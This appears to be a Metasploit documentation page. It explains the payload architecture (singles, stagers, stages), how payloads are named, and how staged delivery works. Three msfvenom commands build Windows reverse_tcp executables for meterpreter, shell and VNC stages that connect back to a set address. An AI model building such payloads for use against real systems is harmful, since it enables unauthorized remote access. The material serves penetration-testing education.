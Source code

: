 # How Payloads Work

Payload modules are stored in `modules/payloads/{singles,stages,stagers}/<platform>`. When the framework starts up, stages are combined with stagers to create a complete payload that you can use in exploits. Then, handlers are paired with payloads so the framework will know how to create sessions with a given communications mechanism.

Payloads are given reference names that indicate all the pieces, like so:
  - Staged payloads: `<platform>/[arch]/<stage>/<stager>`
  - Single payloads: `<platform>/[arch]/<single>`

This results in payloads like `windows/x64/meterpreter/reverse_tcp`. Breaking that down, the platform is `windows`, the architecture is `x64`, the final stage we're delivering is `meterpreter`, and the stager delivering it is `reverse_tcp`.

Note that architecture is optional because in some cases it is either unnecessary or implied. An example is `php/meterpreter/reverse_tcp`. Arch is unneeded for PHP payloads because we're delivering interpreted code rather than native.

### Singles

Single payloads are fire-and-forget. They can create a communications mechanism with Metasploit, but they don't have to. An example of a scenario where you might want a single is when the target has no network access -- a fileformat exploit delivered via USB key is still possible.

### Stagers

Stagers are a small stub designed to create some form of communication and then pass execution to the next stage. Using a stager solves two problems. First, it allows us to use a small payload initially to load up a larger payload with more functionality. Second, it makes it possible to separate the communications mechanism from the final stage so one payload can be used with multiple transports without duplicating code.

### Stages

Since the stager will have taken care of dealing with any size restrictions by allocating a big chunk of memory for us to run in, stages can be arbitrarily large. One advantage of that is the ability to write final-stage payloads in a higher-level language like C.

## Delivering stages

1. The IP address and port you want the payload to connect back to are embedded in the stager. As discussed above, all staged payloads are no more than a small stub that sets up communication and executes the next stage. When you create an executable using a staged payload, you're really just creating the stager. So the following commands would create functionally identical exe files:
```
    msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```
(Note that these are *functionally* identical -- there is a lot of randomization that goes into it so no two executables are exactly the same.)

1. The Ruby side acts as a client using whichever transport mechanism was set up by the stager (e.g.: tcp, http, https).
   * In the case of a shell stage, Metasploit will connect the remote process's stdio to your terminal when you interact with it.
   * In the case of a [[Meterpreter]] stage, Metasploit will begin speaking the Meterpreter wire protocol.


